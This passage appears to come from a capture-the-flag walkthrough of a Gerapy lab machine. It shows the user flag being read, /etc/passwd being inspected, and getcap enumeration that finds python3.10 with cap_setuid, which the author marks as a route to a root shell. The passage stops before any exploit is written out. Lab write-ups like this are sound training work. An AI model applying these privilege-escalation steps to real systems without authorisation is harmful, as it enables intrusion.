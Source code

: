 ```
lrwxrwxrwx 1 root root    9 Jun 13  2023 .bash_history -> /dev/null
-rw-r--r-- 1 app  app   220 Jun 13  2023 .bash_logout
-rw-r--r-- 1 app  app  3771 Jun 13  2023 .bashrc
drwxr-xr-x 5 app  app  4096 Jun 14  2023 gerapy
-rw-rw-r-- 1 app  app    33 Feb 26 03:30 local.txt
drwxr-xr-x 2 app  app  4096 Aug 15  2023 logs
-rw-r--r-- 1 app  app   807 Jun 13  2023 .profile
-rwxr-xr-x 1 app  app   109 Jun 13  2023 run.sh
-rw------- 1 app  app   818 Jun 13  2023 .viminfo
app@ubuntu:~$ cat local.txt
cat local.txt
92a066fffd77e6c271b16d68d1a3dd48
```

## Root Flag

16) Now we need to get root... Looking at `/etc/passwd` there are only two users with shells:

```
app@ubuntu:~$ cat /etc/passwd
cat /etc/passwd

(... full list omitted)

root:x:0:0:root:/root:/bin/bash
app:x:1000:1000:,,,:/home/app:/bin/bash

```

> of course `su root` fails, we'll probably need to find password hashes in /etc/* and crack them with `john`...


Before we move on - maybe there's something on the box with setuid capabilities that we could use to escalate privileges...

17) In the remote machine as user `app` we run `getcap -r / 2>/dev/null` to get file capabilities recursively (redirecting errors to /dev/null)

```
app@ubuntu:~/gerapy$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/snap/core20/1518/usr/bin/ping cap_net_raw=ep
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
```

Ooooh interesting! python3.10 has setuid. This means we can potentially start a python3.10 process that gets us a root shell...

